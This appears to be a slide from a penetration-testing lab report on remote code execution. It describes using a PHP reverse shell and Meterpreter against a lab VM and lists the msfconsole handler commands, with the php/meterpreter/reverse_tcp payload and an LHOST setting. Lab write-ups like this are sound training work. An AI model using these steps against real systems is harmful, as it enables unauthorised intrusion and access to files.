

# Exploitation: Remote Code Execution
01

02

03

Tools & Processes
Meterpreter used to connect on web shell.

PHP reverse shell payload used to explore and compromise victim VM.
Achievements
Able to exploit the remote code execution to open a Meterpreter shell to the target VM.

While Meterpreter shell running, able to access full file system for exploration on 192.168.1.105 VM.

To launch `msfconsole`
1) Run `msfconsole` in terminal.
2) `use exploit/multi/handler`.
3) `set payload php/meterpreter/reverse_tcp`
4) `set LHOST 192.168.1.90`
5) `exploit` or `run`